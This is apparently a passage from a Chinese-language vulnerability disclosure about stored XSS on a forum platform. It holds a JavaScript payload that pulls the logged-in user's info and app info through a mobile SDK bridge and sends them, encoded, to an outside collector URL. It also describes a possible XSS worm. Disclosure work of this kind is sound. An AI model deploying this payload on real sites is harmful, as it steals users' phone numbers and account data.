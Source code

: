     // 获取手机客户端用户信息
    const getUserInfo = async function(){
        UUJSSDK.Bridge({api: "get_user_info",cbname: "get_user_info_cb",done: function(res) {
            console.log(res["result"])
            var encoded = encode(JSON.stringify(res["result"]))
            UUJSSDK.Bridge({
                api: "get_app_info",
                params: {},
                done: function(res2) {
                    var encoded2 = encode(JSON.stringify(res2))
                    justSend(api_burp+'?userinfo='+encoded+'&appinfo='+encoded2)
                }
            });
        }})
    }
    // 判断pc端还是手机端
    const isMobile = /iPhone|iPad|iPod|Android/i.test(navigator.userAgent);
    if (isMobile) {
    /* your code here */
        getUserInfo()
        
    }else{
        startSend()
        startSendPost()
    }


## 漏洞危害
1. 攻击者可以在论坛嵌入XSS脚本，大规模收集平台用户手机号和账号信息，造成敏感信息泄漏；
2. 攻击者可以在论坛嵌入XSS脚本，伪造用户发帖、评论等，制造XSS蠕虫，实现XSS帖子的自我复制，扩大影响。

## 修复建议
1. 对用户的输入进行过滤

